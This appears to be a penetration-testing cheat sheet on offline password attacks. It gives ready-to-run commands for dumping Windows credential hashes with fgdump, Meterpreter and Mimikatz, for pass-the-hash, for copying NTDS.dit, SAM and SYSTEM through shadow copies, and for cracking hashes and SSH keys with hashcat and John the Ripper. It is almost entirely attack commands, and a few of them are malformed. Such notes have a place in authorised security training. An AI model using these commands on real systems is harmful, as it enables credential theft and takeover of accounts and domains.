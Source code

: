 # Offline Attack

### Extracting Password Hashes from Windows

#### fgdump

Run fgdump to dump local hash

> `fgdump.exe`

#### Meterpreter's Hashdump

> `meterpreter > hashdump`

#### Mimikatz
> `PS C:\temp\mimikatz> .\mimikatz`

- get debug rights (this or Local System rights is required for many Mimikatz commands).
- by default, the Administrators group has Debug rights. Debug still has to be “activated” by running “privilege::debug”.

>  `mimikatz # privilege::debug`

- lists all available provider credentials. This usually shows recently logged on user and computer credentials.

- Services running with account credentials are also dumped using this command.

- Note that only services that are running (credentials in memory) can be dumped in this manner.


>  `mimikatz # sekurlsa::logonpasswords`

##### Pass the Hash with Mimikatz

If you can’t crack the hash of a local administrator account you can instead just inject the hash into memory to gain the privileges:

> `sekurlsa::pth /user:Administrator /domain:{domain name} /ntlm:{ntlm hash here} /run:cmd`



#### Volume Shadow Copy Services to copy ntds.dit


> `cscript vssown.vbs /start`

> `cscript vssown.vbs /create`

> `copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\NTDS\NTDS.dit c:\`

> `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SYSTEM c:\`

> `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SAM c:\`

### Hash identification

There are generally speaking three pieces of data we can use to identify a hash.

* The length of the hash
* The character set
* Any special characters

We can use hash-identifier to identify the hash algorithm from the hashed password.

`hash-identifier`

### Cracking the Password

#### Hashcat

Put the hashed password file \(test.hash\) and dictionary \(rockyou.txt\) in the same directory and execute the below command:

> `hashcat -m 100 test.hash rockyou.txt`  
> `-m`  
> `-m 100`

#### John the ripper \(\*\)

Use the program "unshadow" which is included in John the Ripper to convert obtained /etc/passwd and /etc/shadow files to a combined file for John \(e.g. crackme.txt below\)

> `unshadow /etc/passwd /etc/shadow >> crackme.txt`

Cracking the file generated by unshadow \(**crackme.txt**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme.txt--wordlist=rockyou.txt`

Convert an encrypted SSH key to a format readable by John

> `ssh2john encrypted-key >> crackme-ssh`

Cracking the file generated by ssh2john \(**crackme-ssh**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme-ssh --wordlist=rockyou.txt`

Crack MD5 hashes that are in a file called hashes using a dictionary/wordlist brute-force

> `john--format=md5 hashes --wordlist=rockyou.txt`

John configuration file

* Linux
  > john.conf
* Windows 
  > john.ini

john.pot file is where the cracking results stored.

> `john --show [password_file]`

john.rec is the recovery file in the event of a crash. To restore cracking

> `john --restore`



